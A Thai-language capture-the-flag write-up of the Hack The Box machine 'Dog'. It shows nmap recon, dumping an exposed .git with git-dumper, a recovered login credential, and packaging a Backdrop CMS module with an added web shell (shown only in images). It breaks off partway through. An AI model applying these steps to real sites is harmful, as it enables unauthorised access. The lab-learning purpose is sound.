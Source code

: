 # Recon

```bash
./scan.sh 10.10.11.58
[*] Running rustscan...
[*] Running nmap on ports: 22,80
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-25 00:30 EDT
Nmap scan report for 10.10.11.58
Host is up (0.040s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 97:2a:d2:2c:89:8a:d3:ed:4d:ac:00:d2:1e:87:49:a7 (RSA)
|   256 27:7c:3c:eb:0f:26:e9:62:59:0f:0f:b1:38:c9:ae:2b (ECDSA)
|_  256 93:88:47:4c:69:af:72:16:09:4c:ba:77:1e:3b:3b:eb (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Home | Dog
| http-git: 
|   10.10.11.58:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: todo: customize url aliases.  reference:https://docs.backdro...
| http-robots.txt: 22 disallowed entries (15 shown)
| /core/ /profiles/ /README.md /web.config /admin 
| /comment/reply /filter/tips /node/add /search /user/register 
|_/user/password /user/login /user/logout /?q=admin /?q=comment/reply
|_http-generator: Backdrop CMS 1 (https://backdropcms.org)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.69 seconds

```

หา Dirb จะพบกับ .git 

![[Challenge/HTB Challenge/Dog/IMG/002.png]]
![[Challenge/HTB Challenge/Dog/IMG/001.png]]

## Git Dump 

```bash
git-dumper http://dog.htb/.git/  ./dog-git
```

จากนั้นทำการค้นหาบัญชีผู้ใช้ภายใต้โดเมนจะเห็นว่ามีชื่อผู้ใช้ชื่อ tiffany@dog.htb 
```bash
grep -r "@dog.htb"
.git/logs/refs/heads/master:0000000000000000000000000000000000000000 8204779c764abd4c9d8d95038b6d22b6a7515afa root <dog@dog.htb> 1738963331 +0000       commit (initial): todo: customize url aliases. reference:https://docs.backdropcms.org/documentation/url-aliases
.git/logs/HEAD:0000000000000000000000000000000000000000 8204779c764abd4c9d8d95038b6d22b6a7515afa root <dog@dog.htb> 1738963331 +0000    commit (initial): todo: customize url aliases. reference:https://docs.backdropcms.org/documentation/url-aliases
files/config_83dddd18e1ec67fd8ff5bba2453c7fb3/active/update.settings.json:        "tiffany@dog.htb"

```
ตรวจสอบไฟล์ settings.php  จะพบว่ามีรหัสผ่านอยู่ 

![[Challenge/HTB Challenge/Dog/IMG/003.png]]

## Credential FOUND 
```credential
tiffany@dog.htb:BackDropJ2024DS2024
```

ซึ่งหากเรานำข้อมูลดังกล่าวไป Login หน้าเว็บจะสามารถเข้าถึงได้

![[Challenge/HTB Challenge/Dog/IMG/005.png]]

![[Challenge/HTB Challenge/Dog/IMG/004.png]]

ในเว็บเป้าหมายมีเมนูให้เราสามารถ upload modules ได้ โดยผมจะทำการดาวโหลด module มาจากเว็บ  https://backdropcms.org/modules 
![[Challenge/HTB Challenge/Dog/IMG/007.png]]

จากนั้นทำการแก้ไข เพิ่มส่วนของ web shell ลงไป 
![[Challenge/HTB Challenge/Dog/IMG/008.png]]

![[Challenge/HTB Challenge/Dog/IMG/006.png]]

จากนั้นจับทุกอย่างบีบอัดไฟล์เป็น .tar.gz อีกครั้ง 
```bash
tar -czvf front.tar.gz *
```


ทำวิธีตามนี้อยู่
https://www.hyhforever.top/htb-dog/